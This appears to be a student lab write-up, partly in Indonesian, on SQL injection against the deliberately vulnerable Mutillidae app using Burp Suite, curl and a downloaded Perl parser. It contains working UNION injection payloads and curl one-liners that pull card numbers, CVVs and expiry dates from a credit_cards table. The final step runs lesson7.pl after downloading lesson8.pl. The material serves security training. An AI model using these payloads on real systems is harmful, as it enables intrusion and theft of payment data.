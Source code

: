 # Lesson 7 : SQL Injection, Burpsuite, cURL, Perl Parser

## Start Web Browser Session to Multillidae
- Buka browser kemudian akses Multillidae sesuai ip metasploit pada alamat http://10.0.1.100/mutillidae
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/1/start_browser.png "Home page")

## Go To User Info Page
1. Go to User Info
   - OWASP Top 10 --> A1 - SQL Injection --> SQLi - Extract Data --> User Info 

## Configure Firefox Proxy Settings
1. View Preferences
   - Edit --> Preferences
2. Advanced Settings
   - Pilih Menu Advanced
   - Pilih Network Tabs
   - Pilih Settings
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/1/network_tab.png "Home page")
3. Connection Settings
   - Gunakan manual proxy
   - Pada kolom HTTP Proxy isikan **127.0.0.1**
   - Pada kolom Port **8080**
   - Centang bagian Use the proxy server for all protocols 
   - Klik Ok, Kemudian Close
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/1/set_config_proxy.png "Home page")

## Configure Burpsuite Settings
1. Buka Aplikasi Burpsuite
   - Akan muncul halaman aplikasi, pilih next
   - Use Burp defaults, kemudian klik start Burp
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/2/use_default.png "Home page")
2. Configure proxy
   - Pilih tab proxy, kemudian options
   - Set port ke 8080 seperti berikut
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/2/proxy_port_8080.png "Home page")
3. Turn on intercept
   - Pilih tab intercept
   - Pastikan intercept button dalam keadaan off "intercept is off"
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/2/intercept_off.png "Home page")

## SQL Injection (Union Example #1)
1. Inspect the Name Textbox with Firebug
   - Klik kanan pada Textbox Name, kemudian inspect element
2. Change Text Box Size
   - Pada bagian size, tambahkan kapasistasnya dari yg semula 20 menjadi 100
3. First Union SQL Injection Attempt
   - Pada kolom Textbox **Name** isikan **`' union select null -- `**
   - Pastikan anda menambahkan spasi setelah karakter **`--`**
   - Klik tombol View Account Details
4. SQL Error
	- Scroll kebawah untuk melihat pesan errornya
	- Perhatikan pesan errornya
	- Errornya terjadi karena perbedaan jumlah coloumn pada database

## SQL Injection (Union Example #2)
1. Inspect the Name Textbox with Firebug
   - Klik kanan pada Textbox Name, kemudian inspect element
2. Change Text Box Size
   - Pada bagian size, tambahkan kapasistasnya dari yg semula 20 menjadi 100
3. Second Union SQL Injection Attempt
   - Pada kolom Textbox **Name** isikan **`' union select null,null,null,null,null -- `**
   - Pastikan anda menambahkan spasi setelah karakter **`--`**
   - Klik tombol View Account Details
4. Viewing the Results
	- Scroll kebawah untuk melihat pesan errornya
	- Perhatikan pesan errornya


## SQL Injection (Union Example #3)
1. Inspect the Name Textbox with Firebug
   - Klik kanan pada Textbox Name, kemudian inspect element
2. Change Text Box Size
   - Pada bagian size, tambahkan kapasistasnya dari yg semula 20 menjadi 100
3. Second Union SQL Injection Attempt
   - Pada kolom Textbox **Name** isikan **`' union select 1,2,3,4,5 -- `**
   - Pastikan anda menambahkan spasi setelah karakter **`--`**
   - Klik tombol View Account Details
4. Viewing the Results
	- Scroll kebawah untuk melihat hasilnya
	- Perhatikan hasilnya
		- Pada hasilnya, terdapat 1 record ditemukan dengan value seperti berikut:
			- Username=2
			- Password=3
			- Signature=4

## SQL Injection (Union Example #4)
1. Inspect the Name Textbox with Firebug
   - Klik kanan pada Textbox Name, kemudian inspect element
2. Change Text Box Size
   - Pada bagian size, tambahkan kapasistasnya dari yg semula 20 menjadi 100
3. Second Union SQL Injection Attempt
   - Pada kolom Textbox **Name** isikan **`' union select ccid,ccnumber,ccv,expiration,null from credit_cards -- `**
   - Pastikan anda menambahkan spasi setelah karakter **`--`**
   - Klik tombol View Account Details
4. Viewing the Results
	- Scroll kebawah untuk melihat hasilnya
	- Perhatikan hasilnya
	- Pada hasilnya, terdapat 5 record ditemukan

## SQL Injection (Union Example with Curl #5)
1. View Post Data (With Burp Suite)
   - Klik pada Tab Proxy
   - Klik pada Tab History
   - Klik cari line yang urlnya mengandung **/mutillidae/index.php?page=user-info.php** dengan Method GET
   - Klik pada Tab Request
   - Klik pada Tab Raw
   - Highligt text, kemudian klik kanan
   - Klik "Copy to File"
2. Save File
   - Save file di dalam folder **root**
   - File Name: **crack_cookies.txt**
   - Klik tombol Save
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/4/save_burp.png "Home page")
3. Use Curl to Display Usernames and Passwords
   - Buka terminal, jalankan perintah berikut : 
 ```
   curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "page=user-info.php&username=%27+union+select+ccid%2Cccnumber%2Cccv%2Cexpiration%2Cnull+from+credit_cards+--+&password=&user-info-php-submit-button=View+Account+Details" --location "http://10.0.1.100/mutillidae/index.php" | grep -i "Username=" | awk 'BEGIN{FS="<"}{for (i=1; i<=NF; i++) print $i}' | awk -F\> '{print $2}'
 ```

## Perl Parser
   - Buka terminal, jalankan perintah berikut :
 ```
   cd /root
   curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "page=user-info.php&username=%27+union+select+ccid%2Cccnumber%2Cccv%2Cexpiration%2Cnull+from+credit_cards+--+&password=&user-info-php-submit-button=View+Account+Details" --location "http://10.0.1.100/mutillidae/index.php" | grep -i "Username="  > lesson8.txt
   cat lesson8.txt
 ```

## Download Parser
   - Buka terminal, jalankan perintah berikut :
   ```
   cd /root
   wget http://www.computersecuritystudent.com/SECURITY_TOOLS/MUTILLIDAE/MUTILLIDAE_2511/lesson8/lesson8.pl.TXT
   mv lesson8.pl.TXT lesson8.pl
   chmod 700 lesson8.pl
   ```

## Run Perl Script
   - Buka terminal, jalankan perintah berikut :
   ```
   ./lesson7.pl
   ```